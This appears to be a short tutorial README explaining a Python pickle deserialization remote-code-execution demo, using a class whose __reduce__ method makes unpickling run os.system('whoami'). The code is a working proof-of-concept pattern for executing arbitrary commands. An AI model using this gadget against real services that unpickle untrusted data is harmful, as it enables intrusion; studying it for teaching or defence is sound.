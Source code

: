 # Pickle Deserialization RCE
## This is how this script simulates a possible Insecure Deserilization attack.

Firstly, pickle is a python module for serializing and deserializing Python objects. Secondly, base64 is used to encode hex in base64 because why not.

```
import pickle
import base64
```

This next piece of code defines a Class with the special method __reduce__(). __reduce__() is used by pickle to determine how an object should be serialized. It's a tuple where the first item is a function and the second is a tuple of arguments.

So this code unpickled will run os.system('whoami')

```
class VeryCoolClass:
    def __reduce__(self):
        import os
        return (
            os.system, ('whoami',)
        )
```

Afterwards, the class is serialized and then deserialized. When the object is deserialized, the __reduce__() function is triggered running arbitrary code.

```
serialised = pickle.dumps(VeryCoolClass())
encoded = base64.b64encode(serialised)

print(encoded)

decoded = base64.b64decode(encoded)
decoded = pickle.loads(decoded)
```
